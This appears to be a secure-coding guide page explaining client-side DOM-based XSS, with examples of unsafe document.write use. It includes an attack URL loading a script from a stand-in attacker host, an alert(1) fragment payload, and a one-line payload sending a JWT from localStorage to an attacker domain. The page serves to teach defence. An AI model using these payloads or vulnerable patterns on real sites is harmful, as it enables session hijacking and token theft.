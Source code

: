 Client XSS
==========

Per definition "_Client XSS vulnerability occurs when untrusted user supplied data is used to
update the DOM with an unsafe JavaScript call. A JavaScript call is considered
unsafe if it can be used to introduce valid JavaScript into the DOM._".
([source][1]).

The "untrusted user supplied data" has multiple sources like the DOM itself,
the URL e.g. a query string parameter or the fragment or even from a server
request. Client side store locations like `Cookies` or `Local Storage` are also
potential sources of XSS payloads.

As an example consider the following script used to display Ads on a website:

```JavaScript
document.write('<script type="text/JavaScript" src="' + (location.search.split('req=')[1] || '') + '"></scr'+'ipt>');
```

Since the `location.search.split` is not properly escaped, the `req` parameter
can be manipulated by an attacker to retrieve malicious JavaScript from a
location he is in control of, injecting it into the web page the victim is
visiting.

```
http://www.example.com/?req=https://www.attacker.com/poc/xss.js
```

To perform this attack, an attacker crafts an URL like the one above, sending it
to the victim. Upon clicking it, the `https://www.attacker.com/poc/xss.js` script
is requested by the Ad snippet making it run in the `www.example.com` context.

This could be the initial step of a [Session Hijacking attack][2] as
attacker's script may have access to the session cookie (if it was not properly
set as `httpOnly`) or to the `localStorage` where a JSON Web Token (JWT) may be
found:

```javascript
(new Image).src = '//attacer.com?jwt='+localStorage.get('JWT');
```

The sample above is a common example of how to exfiltrate data, bypassing the
[Same Origin Policy][3] as the `JWT` value read from `localStorage` is sent as
part of the URL from where an image was supposed to be loaded.


As said before there are many "untrusted data" sources.
Some client-side frameworks use the URL fragment to identify resources or
application states: although the fragment is part of the URL it is not sent to
the sever.

The following script is very simple and for demonstration purposes only, but
encompasses the concept of URL fragment as source of untrusted data. Assuming
that the following script is somewhere in the target page:

```html
<script>
x=location.hash.slice(1);
document.write(x)
</script>
```

then the following URL would trigger the famous `alert(1)` modal.

```
http://example.com/fragment.html#<script>alert(1)</script>
```

To know how to prevent XSS in general please follow the guidelines provided in
[How to prevent XSS section][4].

[1]: https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS
[2]: https://www.owasp.org/index.php/Session_hijacking_attack
[3]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[4]: how-to-prevent.md